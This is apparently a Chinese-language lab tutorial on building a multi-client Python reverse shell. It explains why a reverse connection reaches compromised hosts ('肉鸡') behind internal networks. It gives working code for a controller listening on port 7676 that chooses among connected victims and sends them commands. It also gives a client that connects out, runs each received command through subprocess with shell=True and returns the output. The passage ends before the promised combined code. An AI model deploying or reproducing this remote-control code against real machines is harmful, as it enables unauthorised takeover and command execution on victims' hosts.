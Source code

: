 C/S 结构，即大家熟知的客户机和服务器结构。它是软件系统体系结构，通过它可以充分利用两端硬件环境的优势，将任务合理分配到Client端和Server端来实现，降低了系统的通讯开销。目前大多数应用软件系统都是Client/Server形式的两层结构，由于现在的软件应用系统正在向分布式的Web应用发展，Web和Client/Server 应用都可以进行同样的业务处理，应用不同的模块共享逻辑组件；因此，内部的和外部的用户都可以访问新的和现有的应用系统，通过现有应用系统中的逻辑可以扩展出新的应用系统。这也就是目前应用系统的发展方向。

本次实验就是基于C/S结构的一个应用。很多有名的远程控制工具都是基于C/S结构开发的，比如：灰鸽子、冰河、teamViewer等等。但是我们应该将肉鸡端作为Server还是Client呢？通常情况下是将Client作为控制端，Server作为被控端。这里我们将采用反向连接的方式，将Server作为控制端，Client作为被控端。当然，这两种方式都可以实现我们本次实验的功能。这里我采用反向连接的方式主要是考虑到肉鸡在内网中，我们是无法直接连接到被控端的。如果用反向连接的方式，尽管被控端在内网中，只要我们不在内网中，或者我们做了内网端口映射、动态域名等处理之后，被控端都是可以连接到主控端的。虽然我们在内网中也要进行相应的设置，不过主动权在我们这里总比被控端需要设置这些更方便。


TCP提供一种面向连接的、可靠的字节流服务。面向连接意味着两个使用TCP的应用（通常是一个客户和一个服务器）在彼此交换数据包之前必须先建立一个TCP连接。这一过程与打电话很相似，先拨号振铃，等待对方摘机说“喂”，然后才说明是谁。在一个TCP连接中，仅有两方进行彼此通信，而且广播和多播不能用于TCP。由于这里需要传输的数据量比较小，对传输效率影响不大，而且Tcp相对来说比较稳定！所以本次实验课程将采用Tcp协议来实现多客户端的反向Shell。


实现方案：
本次实验将基于Tcp实现一个C/S结构的应用，Client作为被控端主动连接控制端，Server作为控制端则等待肉鸡连接。具体实现方案如下：

Server（控制端）
Server作为控制端，我们首先要用Python的Socket模块监听本地端口，并等待被控端连接，由于我们要实现多个肉鸡的反向Shell，所以我们需要 维护连接的主机列表，并选择当前要发送命令的肉机，接下来我们就可以通过socket给指定的主机发送Shell命令了。

Client（被控端）
Client作为被控端，首先我们要通过Python的Socket模块连接到控制端，之后只要一直等待控制端发送Shell命令就可以了，当接收到控制端发送的命令之后，用Python的subprocess模块执行Shell命令，并将执行命令的结果用socket发送给控制端。

代码实现


看了上面这么多理论知识，同学们是不是觉得有些厌烦了？别急，现在同学们就跟着我的思路来看一下代码的实现过程。另外说一下，在这里我可能会把被控端叫作肉鸡，意思其实是完全被我们控制的主机。在这里我们可以把肉鸡（机）和被控端当成一回事来看待，因为你能获得主机的Shell一般就可以完全控制这台主机了。

控制端：
控制端需要实现等待被控端连接、给被控端发送Shell命令，并且可以选择和切换当前要接收Shell命令的肉鸡（被控端）。所以，首先我们需要创建一个socket对象，并监听7676端口，代码如下：

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # 创建一个Tcp Socket
s.bind(('0.0.0.0',7676)) #绑定7676端口，并与允许来自任意地址的连接
s.listen(1024) #开始监听端口
copy
可能大家都比较熟悉socket的用法，这里我只说一下创建socket对象时两个参数的含义，一般我都会在代码的注释中同时解释每段代码的含义。socket.AF_INET代表使用IPv4协议，socket.SOCK_STREAM 代表使用面向流的Tcp协议，也就是说我们创建了一个基于IPv4协议的Tcp Server。 接下来当有肉鸡连接的时候我们需要获取肉机的socket，并记录起来，以便和肉鸡进行通信。我们先来看下代码：

def wait_connect(sk):
    global clientList
    while not quitThread:
        if len(clientList) == 0:
            print('Waiting for the connection......')
        sock, addr = sk.accept()
        print('New client %s is connection!' % (addr[0]))
        lock.acquire()
        clientList.append((sock, addr))
        lock.release()
copy
当有多个肉机连接到控制端时，我们要记录肉机的socket对象，以便我们可以选择不同的操作对象，我们再来看一看是怎样实现选择已经连接的肉机，代码如下：

clientList = []             #连接的客户端列表
curClient = None            #当前的客户端

def select_client():        #选择客户端
    global clientList
    global curClient

    for i in range(len(clientList)):    #输出已经连接到控制端的肉机地址
        print('[%i]-> %s' % (i, str(clientList[i][1][0])))
    print('Please select a client!')

    while True:
        num = input('client num:')      #等待输入一个待选择地址的序号
        if int(num) >= len(clientList):
            print('Please input a correct num!')
            continue
        else:
            break

    curClient = clientList[int(num)]    #将选择的socket对象存入curClient中
copy
通过记录已经连接肉鸡的socket，并将选择的socket赋值给curClient就实现了多客户端的选择。 现在我们就可以实现命令的发送和接收了：

def shell_ctrl(socket,addr):                #负责发送Shell命令和接收结果
    while True:
        com = input(str(addr[0]) + ':~#')   #等待输入命令
        if com == '!ch':                    #切换肉机命令
            select_client()
            return
        if com == '!q':                     #退出控制端命令
            exit(0)
        socket.send(com.encode('utf-8'))    #发送命令的字节码
        data = socket.recv(1024)            #接收反回的结果
        print(data.decode('utf-8'))         #输出结果
copy
这里有一点需要注意一下，这里我们对接收和发送统一都用utf-8进行编码和解码，同样在客户端中也采用同样的编码才会保证接收和发送的结果正确。至于发送命令这部分主要就是等待用户输入命令然后判断是不是切换肉鸡或者是退出命令，如果不是就把命令发送给客户端。到此我们的控制端基本的组成部分就实现完成了！



被控制端：client
被控端需要实现连接到控制端、执行控制端发送过来的命令并将执行命令后的结果发送给控制端。与控制端相比被控端要简单的多，下面我们就用一个函数来实现上面我们提到的功能，代码如下：

def connectHost(ht,pt): 
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)    #创建socket对象
    sock.connect((ht,int(pt)))  #主机的指定端口
    while True:
        data = sock.recv(1024)  #接收命令
        data = data.decode('utf-8') #对命令解码
        #执行命令
        comRst = subprocess.Popen(data,shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        #获取命令执行结果
        m_stdout, m_stderr = comRst.communicate()
        #将执行命令结果编码后发送给控制端
        sock.send(m_stdout.decode(sys.getfilesystemencoding()).encode('utf-8'))
        time.sleep(1)
    sock.close()
copy
通过这一个函数就实现了被控端的所有功能，是不是很简单？这个函数的核心其实就是subprocess.Popen()这个函数，这里我简单介绍一下。subprocess.Popen()可以实现在一个新的进程中启动一个子程序，第一个参数就是子程序的名字，shell=True则是说明程序在Shell中执行。至于stdout、stderr、stdin的值都是subprocess.PIPE，则表示用管道的形式与子进程交互。还有一个需要注意的地方就是在给控制端发送命令执行结果的时候，这里先将结果用本地系统编码的方式进行解码，然后又用utf-8进行编码，以避免被控端编码不是utf-8时，控制端接收到的结果显示乱码。

至此我们就将控制端和被控端都实现完了，代码很容易理解，代码量也不多。下面我们来整合全部代码！


